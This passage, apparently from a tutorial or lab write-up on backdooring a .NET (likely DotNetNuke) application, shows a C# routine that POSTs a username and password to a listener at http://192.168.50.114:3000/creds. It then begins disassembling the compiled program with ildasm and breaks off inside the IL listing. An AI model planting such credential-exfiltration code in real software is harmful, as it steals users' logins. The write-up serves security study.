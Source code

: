 The source code for my `CustomFunction` and Console Application:

```csharp
using Newtonsoft.Json;
using System;
using System.Collections.Generic;
using System.Collections.Specialized;
using System.Linq;
using System.Net;
using System.Net.Http;
using System.Security.Policy;
using System.Text;
using System.Threading.Tasks;

namespace DnnReConsoleApp
{
    internal class Program
    {
        static void Main(string[] args)
        {
            string username = "bogus";
            string password = "bogus2";
            CustomFunction(username, password);
        }

        static void CustomFunction(string username, string password)
        {
            using (var wb = new WebClient())
            {
                var data = new NameValueCollection();
                data["username"] = username;
                data["password"] = password;

                var response = wb.UploadValues("http://192.168.50.114:3000/creds", "POST", data);
                string responseInString = Encoding.UTF8.GetString(response);
            }

        }
    }
}
```

I compile this application and then disassemble it with `ildasm` by running:

```
ildasm /out=DnnReConsoleApp.il DnnReConsoleApp.exe
```

Which produces the following bytecode disassembly:

```

//  Microsoft (R) .NET Framework IL Disassembler.  Version 4.8.3928.0
//  Copyright (c) Microsoft Corporation.  All rights reserved.



// Metadata version: v4.0.30319
.assembly extern mscorlib
{
  .publickeytoken = (B7 7A 5C 56 19 34 E0 89 )                         // .z\V.4..
  .ver 4:0:0:0
}
.assembly extern System
{
  .publickeytoken = (B7 7A 5C 56 19 34 E0 89 )                         // .z\V.4..
  .ver 4:0:0:0
```